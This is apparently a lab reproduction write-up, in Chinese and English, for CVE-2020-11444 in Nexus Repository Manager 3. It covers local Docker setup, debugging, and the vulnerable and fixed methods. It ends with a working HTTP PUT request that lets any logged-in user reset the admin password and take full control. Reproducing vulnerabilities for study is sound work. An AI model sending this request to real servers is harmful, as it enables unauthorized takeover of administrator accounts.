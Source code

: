 CVE-2020-11444 Nexus Repository Manager 3

影响版本：<= 3.21.2
Affected Versions:  All previous Nexus Repository Manager 3 OSS/Pro versions up to and including 3.21.2

Fixed in Version:  Nexus Repository Manager OSS/Pro version 3.22.0

### 1. 拉取镜像
```
docker pull sonatype/nexus3:3.21.2
```

### 2. 创建nexus数据目录
```
mkdir /your-dir/nexus-data && chown -R 200 /your-dir/nexus-data
```

### 3. 运行nexus docker镜像
```
docker run -d --rm -p 8081:8081 -p 5050:5050 --name nexus -v /your-dir/nexus-data:/nexus-data -e INSTALL4J_ADD_VM_PARAMS="-Xms2g -Xmx2g -XX:MaxDirectMemorySize=3g  -Djava.util.prefs.userRoot=/nexus-data -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5050" sonatype/nexus3::3.21.2
```

### 4. github下载源码 & idea远程debug
```
git clone https://github.com/sonatype/nexus-public.git
git checkout -b release-3.21.0-05 origin/release-3.21.0-05
```
idea创建远程debug-启动
```
-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5050
```
漏洞点在 org.sonatype.nexus.security.internal.rest.UserApiResource#changePassword 接口

新版本在 org.sonatype.nexus.security.internal.DefaultSecuritySystem#changePassword(java.lang.String, java.lang.String, boolean) 修复

### 5. 登陆任何一个账号

### 6. 调用更新role接口
数据包：
```
PUT /service/rest/beta/security/users/admin/change-password HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 6
accept: application/json
Sec-Fetch-Dest: empty
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.6080434247960143
Content-Type: text/plain
Origin: http://127.0.0.1:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:8081/swagger-ui/?_v=3.21.1-01&_e=OSS
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: NX-ANTI-CSRF-TOKEN=0.6080434247960143; NXSESSIONID=af3706e2-dc9e-47fa-9739-edb6b3d512fe
Connection: close

123456
```

### 7. 使用admin & 123456登陆，获得最高管理员权限